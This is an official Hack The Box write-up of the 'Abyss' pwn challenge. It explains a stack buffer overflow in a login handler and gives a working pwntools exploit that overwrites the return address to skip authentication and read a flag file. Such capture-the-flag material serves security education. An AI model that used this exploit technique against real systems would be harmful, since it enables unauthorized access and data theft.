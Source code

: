![](../../../../../assets/logo_htb.png)



<img src="../../../../../assets/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />    	<font size="10">Abyss</font>

​		16<sup>th</sup> May 2024

​		Prepared By: ryaagard

​		Challenge Author(s): ryaagard

​		Difficulty: <font color=green>Easy</font>

​		Classification: Official

 



# Synopsis

Abyss is an Easy pwn challenge 

# Description

Abyss is a secret collective of tech wizards with the single-minded aim of reintroducing the technology of old to the society of today. They are so indoctrinated to this faith that they will eradicate all that stand within their way. They are now going around, mumbling something about "file transfers" and spreading unrealistic lies about unattainable goals - can you analyse their work and see what they're up to?

## Skills Required

- 

## Skills Learned

- 

# Enumeration

The challenge source code is fairly simple; We have two different commands, LOGIN and READ.

READ will open the filename provided by the user and write its contents back on the opened socket, but the user has to be logged in before being able to call this command. Valid username and password are located in `.creds` file and both are randomly generated as we can see within the `Dockerfile`:

```dockerfile
[...]
RUN echo $(tr -dc A-Za-z0-9 </dev/urandom | head -c 15):$(tr -dc A-Za-z0-9 </dev/urandom | head -c 15) > .creds
[...]
```

This means that we will not know the username and the password on the remote server instance and bruteforce is not feasible as they are both 15 bytes long.

LOGIN expects an ftp-type command for both the username and password (ie. `USER some_username`, `PASS some_password`). It will read the two commands into an intermediate buffer of size `512`. It then copies the username part of the command into a `user` buffer on the stack of the same size, and then does the same with the password part.

The copying method is the same as `strcpy`: it will copy `buf + strlen("USER ")` into the `user` buffer. Now, as `buf` is not null-terminated, if we fill all 512 bytes it will go out-of-bounds on both the `buf` and `user` (and/or `pass`) buffer.

If the stack layout works in our favor, meaning that either `user` or `pass` buffers are immediately after the end of `buf`, we can control what we write oob on the stack. We can see that that is the case, as the stack layout looks like the following:

```
[ buf ][ user ][ pass ][ return address ]
```

So when the challenge binary is reading the password from the user and we send 512 bytes to fill `buf`, it will start copying bytes from `user` at offset 5 out-of-bounds of the `pass` buffer, overwriting the return address.

After we have control over the return address and there is no PIE the next step is simple, we just make it jump to `cmd_read()` function, but we need to skip the instructions at the beginning that check if the user is logged in.

### Exploit

```python
#!/usr/bin/env python3
from pwn import *

binary = "../challenge/chal"
elf = context.binary = ELF(binary)

# p = elf.process()
p = remote("localhost", 1337)

p.send(p32(0))
p.recvrepeat(1)

p.send(b"USER " + b"AAAAAAAABBBBBBBBC\x1cDDDDEEEEEEE" + p32(0x00000000004014eb))
p.recvrepeat(1)
p.send(b"PASS " + b"D" * (512 - 5))
p.recvrepeat(1)

p.send(b"/app/flag.txt")

p.interactive()
```